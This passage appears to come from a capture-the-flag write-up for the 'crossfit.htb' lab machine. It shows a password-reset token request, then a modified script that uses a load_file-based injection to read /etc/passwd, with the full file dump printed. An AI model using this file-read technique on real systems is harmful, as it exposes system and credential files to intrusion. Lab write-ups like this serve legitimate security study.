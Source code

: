 ```bash
http://employees.crossfit.htb/password-reset.php?token=9838ed910a751d1777e165a28d171d9acdd80a8d9407e5393cd9aa8d72b74591 

Invalid token.
```

I changed the automated script to use load_file function to read local files, and I checked it against the passwd file.

```bash
❯ python3 file_reader.py /etc/passwd
2025-07-07 17:37:18,161 - INFO - Attempting to read file: /etc/passwd
2025-07-07 17:37:18,374 - INFO - Successfully read /etc/passwd
root:*:0:0:Charlie &:/root:/bin/ksh
daemon:*:1:1:The devil himself:/root:/sbin/nologin
operator:*:2:5:System &:/operator:/sbin/nologin
bin:*:3:7:Binaries Commands and Source:/:/sbin/nologin
build:*:21:21:base and xenocara build:/var/empty:/bin/ksh
sshd:*:27:27:sshd privsep:/var/empty:/sbin/nologin
_portmap:*:28:28:portmap:/var/empty:/sbin/nologin
_identd:*:29:29:identd:/var/empty:/sbin/nologin
_rstatd:*:30:30:rpc.rstatd:/var/empty:/sbin/nologin
_rusersd:*:32:32:rpc.rusersd:/var/empty:/sbin/nologin
_fingerd:*:33:33:fingerd:/var/empty:/sbin/nologin
_x11:*:35:35:X Server:/var/empty:/sbin/nologin
_unwind:*:48:48:Unwind Daemon:/var/empty:/sbin/nologin
_switchd:*:49:49:Switch Daemon:/var/empty:/sbin/nologin
_traceroute:*:50:50:traceroute privdrop user:/var/empty:/sbin/nologin
_ping:*:51:51:ping privdrop user:/var/empty:/sbin/nologin
_unbound:*:53:53:Unbound Daemon:/var/unbound:/sbin/nologin
_dpb:*:54:54:dpb privsep:/var/empty:/sbin/nologin
_pbuild:*:55:55:dpb build user:/nonexistent:/sbin/nologin
_pfetch:*:56:56:dpb fetch user:/nonexistent:/sbin/nologin
_pkgfetch:*:57:57:pkg fetch user:/nonexistent:/sbin/nologin
_pkguntar:*:58:58:pkg untar user:/nonexistent:/sbin/nologin
_spamd:*:62:62:Spam Daemon:/var/empty:/sbin/nologin
www:*:67:67:HTTP Server:/var/www:/sbin/nologin
_isakmpd:*:68:68:isakmpd privsep:/var/empty:/sbin/nologin
_rpki-client:*:70:70:rpki-client user:/nonexistent:/sbin/nologin
_syslogd:*:73:73:Syslog Daemon:/var/empty:/sbin/nologin
_pflogd:*:74:74:pflogd privsep:/var/empty:/sbin/nologin
_bgpd:*:75:75:BGP Daemon:/var/empty:/sbin/nologin
_tcpdump:*:76:76:tcpdump privsep:/var/empty:/sbin/nologin
_dhcp:*:77:77:DHCP programs:/var/empty:/sbin/nologin
_mopd:*:78:78:MOP Daemon:/var/empty:/sbin/nologin
_tftpd:*:79:79:TFTP Daemon:/var/empty:/sbin/nologin
_rbootd:*:80:80:rbootd Daemon:/var/empty:/sbin/nologin
_ppp:*:82:82:PPP utilities:/var/empty:/sbin/nologin
_ntp:*:83:83:NTP Daemon:/var/empty:/sbin/nologin
_ftp:*:84:84:FTP Daemon:/var/empty:/sbin/nologin
_ospfd:*:85:85:OSPF Daemon:/var/empty:/sbin/nologin
_hostapd:*:86:86:HostAP Daemon:/var/empty:/sbin/nologin
_dvmrpd:*:87:87:DVMRP Daemon:/var/empty:/sbin/nologin
_ripd:*:88:88:RIP Daemon:/var/empty:/sbin/nologin
_relayd:*:89:89:Relay Daemon:/var/empty:/sbin/nologin
_ospf6d:*:90:90:OSPF6 Daemon:/var/empty:/sbin/nologin
_snmpd:*:91:91:SNMP Daemon:/var/empty:/sbin/nologin
_ypldap:*:93:93:YP to LDAP Daemon:/var/empty:/sbin/nologin
_rad:*:94:94:IPv6 Router Advertisement Daemon:/var/empty:/sbin/nologin
_smtpd:*:95:95:SMTP Daemon:/var/empty:/sbin/nologin
_rwalld:*:96:96:rpc.rwalld:/var/empty:/sbin/nologin
_nsd:*:97:97:NSD Daemon:/var/empty:/sbin/nologin
_ldpd:*:98:98:LDP Daemon:/var/empty:/sbin/nologin
_sndio:*:99:99:sndio privsep:/var/empty:/sbin/nologin
```